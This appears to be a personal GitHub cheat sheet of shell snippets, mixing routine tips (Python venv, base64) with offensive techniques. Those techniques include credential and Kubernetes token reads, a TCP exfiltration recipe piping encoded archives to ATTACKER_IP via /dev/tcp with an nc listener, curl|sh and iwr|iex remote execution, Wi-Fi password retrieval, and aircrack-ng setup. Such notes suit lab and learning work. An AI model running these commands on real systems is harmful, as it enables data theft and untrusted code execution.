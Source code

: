 # knowledge-db
Various commands, scripts and how-to documents

### Retrieve Wi-Fi Passwords on MacOS 
---
    security find-generic-password -ga "HomeWiFi"

### Bash Ping Sweep 🛰️
---
    subnet="192.168.1"; for ip in {1..254}; do ping -c 1 -W 1 "${subnet}.${ip}" > /dev/null 2>&1 && echo "Host ${subnet}.${ip} is up" || echo "Host ${subnet}.${ip} is down"; done

### Python Virtual Environment 🦾
---
Go to your project folder and run:

    python3 -m venv venv
    source ./venv/bin/activate
    deactivate

### Poking Around 👀
---
```
id
uname -a
env
df 
mount 
ps -aux 
cat /etc/mtab
docker -version
capsh —print #printCapabilities
ifconfig | grep inet
cat /etc/shadow

who
last
sudo journalctl -u ssh --since "200 days ago"
sudo cat /var/log/auth.log | grep "Failed password"
history

sudo netstat -tulnp
sudo ss -tulwn
sudo netstat -anp | grep ESTABLISHED
sudo journalctl -u ssh | grep "Accepted"

ls /var/run/secrets/kubernetes.io/serviceaccount
cat /var/run/secrets/kubernetes.io/serviceaccount/token
cat /var/run/secrets/kubernetes.io/serviceaccount/namespace
cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt
```

### Data Exfiltration via TCP Socket 👀
---
Exfiltrate data over TCP using data encoding. 

- attackerMachine - listen & safe
   - ```nc -lvp 8080 > /tmp/task4-creds.data```

- victimMachine - zip & convert & send via TCP
   - ```tar zcf - folderToZip/ | base64 | dd conv=ebcdic > /dev/tcp/ATTACKER_IP/8080```

- attackerMachine - convert 
   - ```dd conv=ascii if=task4-creds.data |base64 -d > task4-creds.tar```
- unzip
   - ```tar xvf task4-creds.tar```

### Cool But Insecure Way To Execute Scripts 💩
---
Powershell

    iwr -useb https://something.com/psscript.ps1 | iex

Bash

    curl https://something.com/bashscript.sh | sh

### BASE64 
--- 

Convert to Base64

    [Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes("roman"))      

Results:

	cm9tYW4=

Decode from Base64

    [Text.Encoding]::UTF8.GetString([Convert]::FromBase64String('cm9tYW4='))

Results:

	Roman

### Aircrack-ng 
--- 
	sudo apt update
	sudo apt install aircrack-ng
	iwconfig # Take note of the interface you want to monitor on
	sudo airmon-ng check kill
	sudo airmon-ng
	sudo airmon-ng start wlx1xxxxxxx
	sudo airmon-ng wlan0mon
	sudo systemctl restart NetworkManager
